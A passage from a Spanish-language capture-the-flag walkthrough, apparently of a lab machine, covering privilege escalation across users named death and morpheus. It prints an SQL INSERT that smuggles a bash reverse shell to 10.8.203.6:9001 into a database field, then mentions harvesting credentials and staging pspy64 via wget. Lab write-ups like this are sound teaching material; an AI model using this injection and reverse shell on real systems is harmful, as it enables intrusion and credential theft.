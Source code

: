 ### vamos a mirar en toda la base de datos

![img](/assets/img/imagenes/Pasted image 20231121212309.png)

### nos aprovecharemos del archivo que mencionamos anteriormente el cual hace un llamado de todo lo que esta en la base de datos e intentaremos inyectar una shell a la base de datos para que cuando ejecutemos el archivo con suerte esto nos envie una shell
### vamos a inyectar codigo a la base de datos

```python
	INSERT into dreams (dreamer,dream) VALUE ("Gamuke","; bash -c 'bash -i >& /dev/tcp/10.8.203.6/9001 0>&1'");
```

![img](/assets/img/imagenes/Pasted image 20231121214156.png)

### tenemos nuestro codigo malicioso inyectado en la base de datos asi que vamos a ejecutar el archvo.

![img](/assets/img/imagenes/Pasted image 20231121214610.png)

### logramos tener conexion. dentro de este usuario hacemos cat al archivo getDreams.py

![img](/assets/img/imagenes/Pasted image 20231121215212.png)

### hemos conseguido credenciales para el usuario death las cuales podriamos verificar si ingresamos via ssh
### nos falta enumerar el ultimo usuario

![img](/assets/img/imagenes/Pasted image 20231121215810.png)

### vemos que dentro de la carpeta de morpheus existe un archivo llamado restore.py que al parecer hace un llamado de una libreria de python luego hace un backup de in archivo llamado kingdom. 
### parece que este archivo es una tarea crontab o se esta ejecutando cada cierto tiempo asi que intentaremos mirarlo con pspy64
### para ello vamos a movernos a la carpeta

```python
	cd /dev/shm
```
### aqui vamos a subir el pspy64
creamos un servidor en python
![img](/assets/img/imagenes/Pasted image 20231121220720.png)
hacemos una peticion con wget al servidor para bajarnos el archivo
